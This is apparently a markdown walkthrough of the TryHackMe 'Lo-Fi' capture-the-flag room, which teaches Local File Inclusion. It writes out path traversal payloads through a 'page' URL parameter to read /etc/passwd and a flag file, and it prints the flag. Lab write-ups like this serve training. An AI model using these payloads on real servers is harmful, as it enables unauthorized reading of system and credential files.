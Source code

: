 # Lo-Fi

<p align="center">
  <img src="https://tryhackme-images.s3.amazonaws.com/room-icons/5de96d9ca744773ea7ef8c00-1737110160739" width="200">
</p>

> *Want to hear some lo-fi beats, to relax or study to? We've got you covered!*

<br>

## 🧠 Intro
Welcome to **Lo-Fi**, where we’ll be exploring **Local File Inclusion (LFI)**. This vulnerability happens when an application allows users to include files on the server through the browser—usually due to unsafe handling of URL parameters.  

*Get into the Lo-Fi vibe and deploy your machine!* 🎧

<br>

## 🎯 Task
To pwn this room, we need to:

- Capture the **flag**.  
  
*Let’s see what we can uncover.* 🔍

<br> 

## 🔍 Recon
We start off by visiting the machine’s IP in the browser:

> http://MACHINE_IP

![Lo-Fi_1](src/Lo-Fi_1.png)

We’re greeted with a chill video page and some categories on the side. Out of curiosity, we click on one—`sleep`.

That takes us to:

> http://MACHINE_IP/?page=sleep.php

![Lo-Fi_2](src/Lo-Fi_2.png)

Hmm. That URL looks interesting. `page=sleep.php`? Looks like the server is including files based on that parameter. 🤔

So... what if we try something like:

> http://MACHINE_IP/?page=/home

![Lo-Fi_3](src/Lo-Fi_3.png)

Bingo. We get a message telling us to stop hacking.

*Sorry, that’s not gonna happen.* 😎

<br>

## 🧪 Exploitation (LFI)
Time to test a classic LFI payload:

> `../../../../etc/passwd`

So we go to:

> http://MACHINE_IP/?page=../../../../etc/passwd

![Lo-Fi_4](src/Lo-Fi_4.png)

Boom! We get the contents of `/etc/passwd` on the page. That's a confirmed LFI vulnerability.

Let’s look for our flag. Common sense says it might be in the root directory:

> http://MACHINE_IP/?page=../../../../flag.txt

![Lo-Fi_5](src/Lo-Fi_5.png)

And there it is!

<br>

## 🏁 Got the Flag
On the root directory, we find our flag.

```
flag{go_get_it}
```

*Easy, breezy, breech-y.* 😌  
 
<br>

## 📝 Notes
This room shows how a seemingly harmless parameter can be a serious entry point. If you allow file paths to be loaded from user input, make sure to sanitize and restrict that input.

<br>

## 🏠 Room Info
- 🧩 [TryHackMe - Lo-Fi](https://tryhackme.com/room/lofi)
- 🏷️ Difficulty: Easy
- 🧠 Focus: LFI (Local File Inclusion)
